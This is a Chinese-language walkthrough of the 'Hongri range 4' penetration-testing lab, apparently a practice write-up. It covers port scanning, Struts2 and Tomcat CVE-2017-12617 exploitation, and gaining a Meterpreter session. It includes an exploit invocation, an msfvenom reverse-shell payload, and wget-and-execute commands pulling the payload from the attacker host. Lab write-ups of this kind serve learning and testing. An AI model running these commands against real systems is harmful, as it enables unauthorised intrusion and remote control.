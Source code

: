 # 红日靶场四

## 外网

```
ubuntu密码：ubuntu：ubuntu 内网：192.168.183.128 外网：192.168.1.131
dc密码：administrator：admin@123 192.168.183.130
win7密码：douser:Dotest123 192.168.183.129
kali攻击机：192.168.1.128
```

进行前期配置完毕之后

我们首先把Ubuntu的docker打开

命令提示：

```
docker ps -a 查看容器信息
docker start 【容器id】 开启容器
查询占用的docker映射占用的端口号 docker container ls -a|grep 端口号
```

<img src="image/image-20240325150600940.png" alt="image-20240325150600940" style="zoom:80%;" />

成功打开，其中有一些未能打开的容器报错可以先不管

### 信息搜集

首先进行端口扫描，发现22 2001 2002 2003开启

<img src="image/image-20240325152024244.png" alt="image-20240325152024244" style="zoom:80%;" />

尝试进行访问

发现2001对应着一个文件上传页面 

<img src="image/image-20240325153332617.png" alt="image-20240325153332617" style="zoom:80%;" />

2002对应着tomcat默认页面

<img src="image/image-20240325153357839.png" alt="image-20240325153357839" style="zoom:80%;" />

 2003是phpmyadmin

<img src="image/image-20240325153416080.png" alt="image-20240325153416080" style="zoom:80%;" />

### 漏洞利用

#### struts2漏洞

在浏览器中进行访问主机的2001端口，此时可以看到浏览的结果，上传文件后发现没有任何反应，此时发现上传之后url的后缀名发现是以.action结尾的，action可能是Java语言编写的，判断可能存在struts2的漏洞

然后查看源代码也发现如下，可能是strusts2的框架

<img src="image/image-20240325202923332.png" alt="image-20240325202923332" style="zoom:80%;" />

所以猜测存在struts2的漏洞

使用strusts2扫描工具发现

<img src="image/image-20240325204203792.png" alt="image-20240325204203792" style="zoom:80%;" />

含有s2-045，s2-046两个漏洞

<img src="image/image-20240325204412285.png" alt="image-20240325204412285" style="zoom:80%;" />

验证发现可以听过漏洞进行命令执行

<img src="image/image-20240325205324547.png" alt="image-20240325205324547" style="zoom:80%;" />

访问发现是404报错，放弃看下一个

#### tomcat

2002端口是一个apache tomcat 8.5.19

<img src="image/image-20240325205534465.png" alt="image-20240325205534465" style="zoom:80%;" />

在kali上搜索是否含有版本漏洞

![image-20240325212644547](image/image-20240325212644547.png)

把漏洞检测的poc复制出来

```
POC的含义 POC通常是一个简单的代码示例或一个脚本，用于验证某个系统或应用程序中存在的漏洞、弱点或安全问题
```

使用poc检测是否存在漏洞，这里发现是存在CVE-2017-12617这个漏洞的，这里的poc原理应该是上传了一个Poc.jsp来判断是否存在漏洞(该版本的tomcat进行漏洞查找，发现该版本存在CVE-2017-12617漏洞，这个漏洞CVE- 2017-12615是 Tomcat远程代码执行漏洞(PUT请求)，可以使用PUT方法上传任意文件)

<img src="image/image-20240325213112232.png" alt="image-20240325213112232" style="zoom:80%;" />

我们访问一下Poc.jsp，是存在的

![image-20240325213525609](image/image-20240325213525609.png)

那么存在漏洞，直接使用`-p`参数进行攻击，这里拿到了一个反弹回来的shell，这里因为是交互型shell，不太方便下一步的操作，这里尝试着上线msf

```
python 42966.py -u http://192.168.1.131:2002/ -p pwn
```

<img src="image/image-20240325213859066.png" alt="image-20240325213859066" style="zoom:80%;" />

这里拿到了命令执行的权限，所以考虑用msf生成马子，然后用权限运行，方便连接

因为是linux，所以需要生成linux的木马，在kali本地起一个http服务方便靶机下载

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > shell.elf

python -m SimpleHTTPServer	#py2环境，开启http服务，使靶机能够下载马子
```

![image-20240325220134344](image/image-20240325220134344.png)

![image-20240325220137050](image/image-20240325220137050.png)

因为这里是python3，所以用python -m http.server 8000

下载shell.elf并赋权执行

```
wget http://192.168.1.10:8000/shell.elf

chmod 777 shell.elf

./shell.elf
```

<img src="image/image-20240325220446476.png" alt="image-20240325220446476" style="zoom:80%;" />

使用msf接收会话，上线成功

```
set payload linux/x86/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.1.10
set lport 4444
run
```

